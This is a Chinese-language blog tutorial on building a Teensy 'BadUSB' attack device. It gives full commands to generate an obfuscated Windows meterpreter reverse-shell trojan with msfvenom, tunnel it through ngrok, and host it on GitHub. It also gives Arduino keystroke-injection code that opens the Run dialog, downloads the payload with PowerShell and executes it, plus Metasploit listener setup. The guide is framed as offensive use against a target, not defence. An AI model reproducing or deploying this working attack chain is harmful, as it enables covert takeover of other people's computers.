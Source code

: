 ```yaml
---
title: 渗透利器-Teensy（低配版BadUSB）
date: 2018-09-25 
tags: kali
layut: post
---
```


### 准备工作
* 一块 **Teensy2.0++** 的板子(淘宝一搜就有)
![1](http://da1sy.github.io/assets/images/9-Yue/teensy-1.jpg)
* Arduino解释器
    - 1.8.7版本下载连接：[arduino下载地址](https://downloads.arduino.cc/arduino-1.8.7-linux64.tar.xz "arduino") 
* Teensy插件
    - 下载连接：[Teensy下载地址](https://www.pjrc.com/teensy/td_144/TeensyduinoInstall.linux64 "Teensy")

### 1.下载好arduino后直接解压
```linux
⚡ /home/da1sy/arduino-1.8.7# ./arduino
```
### 2.安装Teensy插件
```
⚡ /home/da1sy/arduino-1.8.7# ./TeensyduinoInstall.linux64
```
**注意将插件安装到arduino的解压目录下**
### 3.arduino修改配置
打开软件后将 **工具** 下配置修改如下
![2](http://da1sy.github.io/assets/images/9-Yue/teensy-2.jpg)

### 4.利用ngrok实现内网穿透
#### 在https://www.ngrok.cc/ 注册账号后开通tcp隧道
![3](http://da1sy.github.io/assets/images/9-Yue/teensy-3.png)
#### 下载客户端
```linux
⚡/home/da1sy/桌面/linux_amd64# ./sunny clientid 隧道ID号
```
![4](http://da1sy.github.io/assets/images/9-Yue/teensy-4.png)
### 5.利用msfvenom生成windows端木马
```linux
 ⚡/home/da1sy# msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 12 -b '\x00' lhost=free.idcfengye.com lport=17839 -f exe > windows.exe  
```
**lhost** 为运行sunny后的域名，**lport**为开通隧道时填写的端口（运行后也会有显示）
#### **最后将生成的木马放到github项目上实现远程下载**
### 6.编辑arduino代码
```arduino
char *command1 = "powershell -Command $clnt = new-object System.Net.WebClient;$url= 'https://raw.githubusercontent.com/da1sy/da1sy/master/windows.exe';$file = ' %HOMEPATH%\\windows.exe ';$clnt.DownloadFile($url,$file); ";
char *command2 = "%HOMEPATH%\\windows.exe ";
//将连接的地址改为自己github的地址
void setup() { 
    delay(5000);
    omg(command1);
    delay(15000);
    omg(command2);
 }
  
void loop() {}

void omg(char *SomeCommand)
{
  Keyboard.set_modifier(128); 
  Keyboard.set_key1(KEY_R);
  Keyboard.send_now(); 
  Keyboard.set_modifier(0); 
  Keyboard.set_key1(0); 
  Keyboard.send_now(); 
  delay(1500);
  Keyboard.println(SomeCommand);
}
```
#### 编辑好后点**验证**，然后插入**Teensy**板子，最后按一下板子上的按钮完成上传

### 7.metasploit开启监听
```
⚡ /home/da1sy/# msfconsole

msf > use exploit/multi/handler
msf exploit(multi/handler) > set lhost 127.0.0.1
msf exploit(multi/handler) > set lport 6666
msf exploit(multi/handler) > exploit
```
![5](http://da1sy.github.io/assets/images/9-Yue/teensy-5.png)

### 8.最后对目标插入badusb
效果图如下
![6](http://da1sy.github.io/assets/images/9-Yue/teensy-s1.gif)

监听端
![7](http://da1sy.github.io/assets/images/9-Yue/teensy-s2.gif)

> 最后反弹的会话好像是出现了毛病，不过总体上嘛 问题不大

### 一些其他的代码
```
有时间再补
```
